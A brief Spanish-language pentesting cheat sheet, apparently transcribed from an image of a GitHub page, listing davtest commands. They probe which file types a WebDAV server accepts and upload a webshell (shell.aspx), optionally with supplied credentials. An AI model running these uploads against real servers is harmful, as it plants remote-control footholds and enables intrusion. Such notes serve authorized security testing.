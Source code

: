 ### Testear el sitio para conocer que tipo de archivos se pueden subir:
$ davtest -url {URL}
### Con autenticación:
$ davtest -url {URL} -cleanup -auth {USER}:{PASSWORD}
### Carga un webshell:
$ davtest -url {URL} -cleanup -uploadfile ./shell.aspx -uploadloc shell.aspx
$ davtest -url {URL} -cleanup -auth {USER}:{PASSWORD} -uploadfile ./shell.aspx -uploadloc shell.aspx